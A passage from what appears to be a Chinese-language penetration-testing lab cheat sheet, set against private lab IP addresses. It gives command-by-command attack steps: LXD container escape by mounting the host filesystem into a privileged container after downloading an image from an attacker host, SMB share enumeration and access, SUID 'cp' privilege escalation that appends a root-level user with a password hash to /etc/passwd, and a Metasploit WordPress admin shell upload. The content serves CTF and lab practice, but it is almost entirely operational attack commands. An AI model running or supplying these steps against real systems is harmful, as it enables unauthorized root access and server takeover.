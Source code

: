 ```
wget http://192.168.56.101:65534/alpine-v3.11-x86_64-20200119_0222.tar.gz
lxc image import ./alpine-v3.11-x86_64-20200119_0222.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root ecursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

#### 七、smb服务利用

使用enum4liux进行smb信息枚举

```
enum4linux -a -o 192.168.56.103
```

![Snipaste_2020-02-10_11-01-26.png](https://i.loli.net/2020/02/10/rSb5u1DYn4qMW2i.png)

得到共享`//192.168.56.103/LOCUS_LAN$`

smbclient访问共享目录

```
smbclient //192.168.56.103/LOCUS_LAN$
HELP
ls
get xxx
quit
```

![Snipaste_2020-02-10_11-03-28.png](https://i.loli.net/2020/02/10/VY52HUc4v6FICeG.png)

#### 八、SUID权限可执行文件 - cp提权（Gears of war）

```
cat /etc/passwd
cat /etc/passwd > /tmp/passwd
echo "glotozz:$1$xyz$lixBkobCAbxJMZGoVS6Ar0:0:0:root:/root:/bin/bash" >> /tmp/passwd
cp /tmp/passwd /etc/passwd
tail -1 /etc/passwd
```

#### 九、wordpress管理员后台getshell

msf或者编辑Theme

```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
show options
set password Hacker@4514
set rhosts 192.168.56.121
set rport 65535
set username notadmin
set targeturi /phpcms
set vhost 192.168.56.101
run
```
